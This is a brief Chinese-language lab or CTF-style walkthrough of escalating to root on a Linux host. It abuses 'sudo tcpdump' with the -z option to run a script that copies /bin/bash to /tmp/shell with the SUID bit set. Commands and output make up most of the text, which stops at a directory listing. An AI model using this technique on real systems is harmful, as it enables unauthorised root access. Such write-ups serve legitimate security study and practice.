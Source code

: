### 步骤

1、创建脚本 /tmp/2root

```bash
webdeveloper@webdeveloper:/tmp$ vim 2root
webdeveloper@webdeveloper:/tmp$ chmod +x 2root 
webdeveloper@webdeveloper:/tmp$ cat 2root 
#!/bin/bash
cp /bin/bash /tmp/shell
chmod u+s /tmp/shell
```

2、执行

lo 可换成本地网卡 eth0

```bash
webdeveloper@webdeveloper:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.102  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::20c:29ff:fea2:2319  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:a2:23:19  txqueuelen 1000  (Ethernet)
        RX packets 804367  bytes 546618314 (546.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 620712  bytes 253431226 (253.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 582  bytes 50911 (50.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 582  bytes 50911 (50.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

```
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z /tmp/2root
```

```bash
webdeveloper@webdeveloper:/tmp$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/2root
```

3、使用复制的 /bin/bash 提权

```bash
webdeveloper@webdeveloper:/tmp$ ls
2root
shell
systemd-private-b03708e2a46d4027852cd35df1cbbe10-apache2.service-9cotMi
systemd-private-b03708e2a46d4027852cd35df1cbbe10-systemd-resolved.service-XlU4MV
systemd-private-b03708e2a46d4027852cd35df1cbbe10-systemd-timesyncd.service-UrgtH3
tmp.ONSjhxQb5T
vmware-root_2082-826912710
vmware-root_2171-1857291366
```
